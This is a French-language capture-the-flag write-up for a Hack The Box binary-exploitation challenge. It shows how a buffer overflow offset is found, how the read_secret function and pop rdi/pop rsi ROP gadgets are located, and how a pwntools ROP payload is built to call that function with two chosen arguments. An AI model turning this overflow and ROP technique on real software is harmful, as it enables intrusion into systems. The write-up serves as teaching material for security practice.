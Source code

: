 
---

## Write-up (HTB CTF)

### C’est parti **PWN** !

C’est un challenge de PWN, donc **exploitation de binaire**.  
On a la possibilité de faire des `segfault` error, donc on peut essayer de faire un **buffer overflow** :

![Segfault](image-1.png)

---

### Contrôle de EIP

On recherche **l’offset exact** qui permet de modifier **EIP** (le registre qui va nous permettre de nous déplacer dans le programme).

Grâce à `pwndbg`, on observe qu’avec **40 `A`**, les 4 `B` qui suivent modifient précisément **EIP** :

```bash
python2 -c 'print "A"*40+"B"*4'
```

➡️ On a donc un **offset de 40**.

---

### Analyse statique de la fonction cible

Avec l’analyse statique, on repère la fonction de validation vers laquelle il va falloir sauter :

![fonction read secret](image-2.png)

Cette fonction attend **deux arguments**.  
Pour les lui fournir avant l’appel, on va utiliser la puissance des **ROP gadgets**.  
Ces gadgets sont des instructions en assembleur déjà présentes dans le binaire, qu’on peut chaîner pour exécuter ce qu’on veut.

---

### Recherche des éléments nécessaires

```bash
objdump -t bypassword_v2 | grep read_secret
```
Résultat :
```
4014bd read_secret
```

Recherche des gadgets :

```bash
ROPgadget --binary bypassword_v2 | grep pop
```

Résultats :
```
0x00000000004017db : pop rdi ; ret
0x00000000004017dd : pop rsi ; ret
```

---

### Petit rappel sur les appels de fonction en x86_64

Avant d’appeler une fonction, on place :
- **Argument 1** dans **RDI**
- **Argument 2** dans **RSI**

Donc, pour ça :
- On `pop` une valeur dans RDI
- Puis `ret` → ce qui permet d’enchaîner le prochain gadget

---

### Construction du payload

**Récupération des gadgets** :

```python
rop = ROP(context.binary)
rdi = rop.find_gadget(["pop rdi", "ret"])[0]
rsi = rop.find_gadget(["pop rsi", "ret"])[0]
read_secret = context.binary.symbols['read_secret']
```

**Création du payload** :

```python
payload = flat(
    b"A" * offset,
    rdi, 0xdeadbeef,
    rsi, 0x1337c0de,
    read_secret
)
```

---
